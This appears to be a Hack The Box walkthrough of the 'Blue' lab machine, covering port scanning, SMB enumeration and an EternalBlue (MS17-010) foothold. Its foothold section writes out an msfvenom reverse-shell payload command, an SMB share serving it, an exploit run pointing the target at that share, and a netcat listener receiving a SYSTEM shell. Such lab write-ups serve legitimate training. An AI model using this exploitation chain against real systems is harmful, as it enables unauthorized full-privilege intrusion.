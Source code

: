 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Server Message Block](#server-message-block)
- [Foothold](#foothold)
	- [EternalBlue](#eternalblue)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.40 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 135,139,445,49152,49153,49154,49155,49156,49157

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.40 -p135,139,445,49152,49153,49154,49155,49156,49157
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:11 +07
Nmap scan report for 10.10.10.40
Host is up (0.27s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m56s, deviation: 34m36s, median: 14m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-05T05:26:21+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-05T04:26:20
|_  start_date: 2021-04-05T04:23:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.31 seconds
```

### Server Message Block

```
┌──(Hades㉿10.10.14.5)-[2.7:14.3]~/scripting
└─$ sudo nmap --script smb-vul* 10.10.10.40 -p 139,445
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:15 +07
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```

Enum using `smbmap` without add user guest, I have nothing.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
```

Adding user guest to tools, it's work now.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40 -u guest
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

## Foothold

### EternalBlue

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/blue)

I drop an exploit `cmd.py` at [Legacy box](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy). Copy and run it for Blue.

Create shell.exe file to open reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f exe > shell.exe
```

Open smb server in kali at folder contain file `shell.exe`.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.3]~
└─$ sudo smbserver.py public /home/kali/walkthrough/hackthebox/blue > /dev/null
```

Execute payload after modify the `USERNAME = 'guest'`. 

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~/walkthrough/hackthebox/blue
└─$ sudo python cmd.py 10.10.10.40 '\\10.10.14.5\public\shell.exe' > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.4]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```